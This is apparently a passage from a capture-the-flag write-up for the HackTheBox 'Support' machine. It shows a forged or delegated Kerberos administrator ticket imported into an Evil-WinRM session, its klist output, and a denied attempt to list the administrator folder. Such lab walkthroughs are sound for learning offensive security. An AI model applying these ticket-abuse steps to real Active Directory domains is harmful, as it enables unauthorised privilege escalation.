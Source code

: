 ```bash
      KITYW5+JO2TQZsMvMAs6R/Ja0dDutD3QMpOiwkBs9S7SOWyHlLWS3u8SFIDP0BTwRLyG5LXnQTER9pDl
      Z3a+kecHL0kruBVvo+wIrRVSc1cUgsHh8HMhtRRdBSbwz2tGTaPGcCc8p/+NraUWf/PEodIxSoULv6pM
      ZMCGG/Qm63KlmNOvXNkRu1f287Ig5+UeaxogZ74SQZEF0BDFG1VAvOlwKJHe6+WOcHHJxR7Skie9pKZu
      RhykGY62F4zLq1S6zU5cT9f9vdOfcEudQv8IYNClwmXMb3SG/lF2Yz2LqtnsM4TzPGr3GKhRnQ4s3mKZ
      7k1x8QcU1bVX2eWbsdfbJoMF4T4qprN6WlmVRcD3F+gKw7h0EA9Hkpoc+1mRT/5Z6DVEG63WN7hHO9Tr
      ADtFs0iKWbZ7S8sKm4d0cFpitaE+Q1InJW/wQ3M5KNeBJB3eb2ciInSBOPeDcU0Wa4A+pRdMG8CDtGo3
      MUDi/CuX/hIlc47RFCyW4xhrl3YlBli9tfkqO63AU7w/sE3F0Efqx4/OE6Ivs+HC8pEEKtc8BI+oGCi6
      gf1sZ0wKCWZU+6qNd5ymr/Hj95AbPKwOreMTekIXjc8R9+MP9zDWeA4WTwACUviBI7Si5haz36Jn6afX
      tUjQOqjr9XljjGoadk3t1TNpV+DXBZqt1pPaLhp7hFOtmx4ObYT0uxst9ZHYMtDzGYpGvxT3Kfi6oENl
      OwBjoDLY84VdWWuJKXuFdfl1UfIl4S2Gwol9Ae9gPAsKadZi9P0SRnq6Sm7EkW7Nz8E8FhgJbGb60xaM
      XBcQp+O0Go+Y4Yvmi4FYR9P17naS/WWjIHRhJpycsmLD5mbciW24oVBGNhaNAFbzx/CmA3pj0xXZyECj
      PGIDTOEu6OjFbMi/14fb0FerrFuvrgCQz24gonChZEnhVaGd+C/bD7lxLEuu/qEP+aa0ycFSg7oe2yZb
      JDkl5wRaM1uGFpzR0bxch32MZ5W2Nhb1ogjv4T+BU6oaXlQ634suwDv8RC2esqtqeohl197ipfZRjTXf
      We3IIywpqZjvlSBRqbaAIf68a1E7Kr6exiDrtdd99U6Fyvxe3DRQUUlrb9hA2uY2qz2E6bIzNYr7zfpb
      A1N894eXPW+ssWjEr+akr25yFO1urG7JjSmROdBbviZe+o/3JRzlGrlHbygNvHyJCa4pE74hKGa9rHOh
      RbIVIcJdVUO0HY5g+1jBu0RhcZWDKLOEobZ5/2bqiv0Km0cJ42N7ksAve9VdGBq8Z52xAlaVeI2Ip+yV
      vwnSofKp5+FBUIZzpkLe7nK3v6TdXmaVxWQCALHTZlniFCPbcFmYsoGQF8H1tPGf8Z1JClbTLeZCSOt7
      OV3hGCCBZtooDe9Lc+cdh8FU8UdZqNU7Smr0lmmnfXx+fabW74yQ8YdZGJVNN9X8kUbj+/mz1+Bv2Av7
      o4HZMIHWoAMCAQCigc4Egct9gcgwgcWggcIwgb8wgbygGzAZoAMCARGhEgQQqrO6AwKfvGpWgm/+p5JU
      76ENGwtTVVBQT1JULkhUQqIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEClAAClERgPMjAy
      NDA2MDkxNDAyNDhaphEYDzIwMjQwNjEwMDAwMjQ4WqcRGA8yMDI0MDYxNjE0MDI0OFqoDRsLU1VQUE9S
      VC5IVEKpITAfoAMCAQKhGDAWGwRjaWZzGw5kYy5zdXBwb3J0Lmh0Yg==
[+] Ticket successfully imported!
```

Rubeus shows the ticket in this session:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> klist

Current LogonId is 0:0x1266b5

Cached Tickets: (1)

#0>     Client: administrator @ SUPPORT.HTB
        Server: cifs/dc.support.htb @ SUPPORT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/9/2024 7:02:48 (local)
        End Time:   6/9/2024 17:02:48 (local)
        Renew Time: 6/16/2024 7:02:48 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

Attempting to enumerate admin directory results in error:

```bash
*Evil-WinRM* PS C:\Users\support\Documents> dir ../../administrator
Access to the path 'C:\Users\administrator' is denied.
At line:1 char:1
+ dir ../../administrator
+ ~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\administrator:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```
